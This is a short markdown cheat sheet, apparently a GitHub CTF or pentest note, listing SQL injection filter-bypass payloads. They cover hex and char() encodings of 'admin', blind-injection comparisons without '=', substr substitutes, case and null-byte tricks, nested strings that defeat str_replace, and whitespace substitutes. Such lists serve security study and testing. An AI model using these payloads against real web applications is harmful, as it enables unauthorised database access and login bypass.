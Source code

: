 <br />

> SQLI

String Filtering [ preg_match - ex) admin]

```php
admin : 0x61646d696e 0b0110000101100100011011010110100101101110 char(0x61, 0x64, 0x6d, 0x69, 0x6e)
```

<br />

Blind SQL Injection Equal(=) Filltering

```php
substr('abc',1,1)like('a')
if(strcmp(substr('abc',1,1),'a'),0,1)
substr('abc',1,1)%20in('a')
```

<br />

substr Filtering

```php
right(left('abc',1),1)
id > 0x41444d4941 'ADMIN' > 'ADMIA'(hex)
```

<br />

ereg, eregi

```php
'admin' Filtering -> 'AdmIN' bypass
FRONT %00 INSERT -> 뒤에 문자 필터링 처리 안됨
```

<br />

replace, replaceAll, str_replace

```php
'admin' Filtering -> 'adadminmin' 'adadmimin' 'admadminin' 'admdmiadmdmiinin'
```

<br />

Numeric Character Filtering

```php
0 -> '!'='@' -> false
1 -> '!'='!' -> true
```

<br />

White Space Filtering (%20)

```
%20 -> %0a %0b %0c %0d %09
```

<br />
